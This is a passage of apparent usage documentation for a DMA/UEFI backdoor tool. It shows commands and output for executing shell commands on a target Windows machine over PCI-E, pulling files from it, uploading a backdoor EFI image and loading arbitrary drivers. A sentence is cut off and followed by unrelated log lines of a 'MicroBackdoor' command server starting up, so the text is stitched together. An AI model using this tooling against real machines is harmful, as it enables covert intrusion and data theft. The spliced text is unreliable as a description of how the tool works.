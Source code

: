 Now, when payload was loaded, you can run `uefi_backdoor_boot_shell.py` with `--attach` option to communicate with currently running instance of DMA Shell:

```
$ ./uefi_backdoor_boot_shell.py --attach --command "dir C:\\"
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Payload shared memory region is at 0x00200000
[+] Executing command: dir C:\
[+] Process exit code: 0x00000000

 Volume in drive C has no label.
 Volume Serial Number is C073-C522

 Directory of C:\

03/26/2021  12:51 PM    <DIR>          ESD
03/26/2020  01:36 PM    <DIR>          Intel
03/18/2019  09:52 PM    <DIR>          PerfLogs
08/23/2020  03:54 AM    <DIR>          Program Files
03/26/2020  03:56 PM    <DIR>          Program Files (x86)
03/26/2020  12:54 PM    <DIR>          Users
04/20/2021  07:03 AM    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  20,203,184,128 bytes free

```

To pull files from the target system you can use `--download` command line option:

```
$ ./uefi_backdoor_boot_shell.py --attach --download C:\\Windows\\System32\\ntoskrnl.exe --path /tmp/ntoskrnl.exe
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Payload shared memory region is at 0x00200000
[+] Downloading file C:\Windows\System32\ntoskrnl.exe from the target...
[+] 9930552 bytes was written to the /tmp/ntoskrnl.exe
```

To push files to the target system you can use `--upload` command line option:

```
$ ./uefi_backdoor_boot_shell.py --attach --upload DmaBackdoorBoot_X64.efi --path C:\\DmaBackdoorBoot_X64.efi
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Payload shared memory region is at 0x00200000
[+] Uploading file DmaBackdoorBoot_X64.efi to the target...
[+] 62720 bytes was written to the C:\DmaBackdoorBoot_X64.efi
```

To run arbitrary kernel driver or DLL image on the target system you can use `--load` command line option:


[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724